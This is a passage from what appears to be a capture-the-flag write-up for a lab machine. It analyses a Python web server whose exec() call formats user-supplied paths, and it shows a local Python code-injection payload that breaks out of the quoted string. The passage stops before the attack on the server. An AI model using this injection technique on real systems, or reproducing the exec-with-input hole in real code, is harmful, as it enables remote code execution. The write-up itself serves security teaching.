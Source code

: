 Let us download the server using wget:
```console
root@silence:~# wget http://10.10.10.168:8080/develop/SuperSecureServer.py
--2020-05-06 19:22:32--  http://10.10.10.168:8080/develop/SuperSecureServer.py
Connecting to 10.10.10.168:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5892 (5.8K) [text/plain]
Saving to: ‘SuperSecureServer.py’

SuperSecureServer.py          100%[===============================================>]   5.75K  --.-KB/s    in 0.001s

2020-05-06 19:22:32 (7.46 MB/s) - ‘SuperSecureServer.py’ saved [5892/5892]
```

### Analyzing the source code
Looking through the source, we can find an exec with user-supplied input.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
	[...]
```
Exec with user-input in most cases leads to code-execution!

Let us test our assumptions locally:
```console
root@silence:~# python3
Python 3.8.2 (default, Apr  1 2020, 15:52:55)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> info = "output = 'Document: {}'"
>>> path = "'"
>>> exec(info.format(path))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    output = 'Document: ''
                         ^
SyntaxError: EOL while scanning string literal
```
When we supply a ', we break the python code and get a SyntaxError. Let us try to inject python code next.

```console
root@silence:~# python3
Python 3.8.2 (default, Apr  1 2020, 15:52:55)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> info = "output = 'Document: {}'"
>>> path =" '; print('test'); x='"
>>> exec(info.format(path))
test
```
By injecting the single-quote, we terminate the format string. We can now add arbitrary python-code and then terminate the other quote by creating a variable x='. Let us test the python-code-execution on the server next.
